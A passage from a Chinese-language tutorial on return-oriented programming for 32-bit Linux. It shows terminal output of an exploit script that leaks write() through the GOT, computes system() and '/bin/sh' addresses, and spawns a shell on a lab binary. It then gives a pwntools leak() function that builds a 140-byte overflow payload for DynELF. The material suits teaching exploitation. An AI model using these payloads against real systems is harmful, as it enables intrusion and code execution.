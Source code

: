 运行结果：
```
root@bogon:~/Desktop/ROP/linux_x86# python level3_eip.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[*] '/root/Desktop/ROP/linux_x86/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/root/Desktop/ROP/linux_x86/level2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './level2': pid 2077
plt_write= 0x8048340
got_write= 0x804a00c
vulfun= 0x8048404

###sending payload1 ...###

###receving write() addr...###
write_addr=0xb7ed3cc0

###calculating system() addr and "/bin/sh" addr...###
system_addr= 0xb7e37b30
binsh_addr= 0xb7f59dc8

###sending payload2 ...###
[*] Switching to interactive mode
$ ls
core     exp3.py  level1.c    level3_eip.py  peda-session-level2.txt
exp1.py  exp4.py  level2    libc.so.6      socat-2.0.0-b8.tar.gz
exp2.py  level1   level2_nx.py    pattern.py
$  
```

### Memory Leak & DynELF - 在不获取目标libc.so的情况下进行ROP攻击

上面的例子讲到了如何通过ROP绕过x86下DEP和ASLR防护。但是我们要事先得到目标机器上的libc.so或者具体的linux版本号才能计算出相应的offset。那么如果我们在获取不到目标机器上的libc.so情况下，应该如何做呢？这时候就需要通过memory leak(内存泄露)来搜索内存找到system()的地址。
这里我们采用pwntools提供的DynELF模块来进行内存搜索。首先我们需要实现一个leak(address)函数，通过这个函数可以获取到某个地址上最少1 byte的数据。leak函数一般的实现方法如下：
```
def leak(address):
    payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
    p.send(payload1)
    data = p.recv(4)
    print "%#x => %s" % (address, (data or '').encode('hex'))
return data
```
**对于plt与got延迟绑定的操作详细可见我写的另外一个文章**
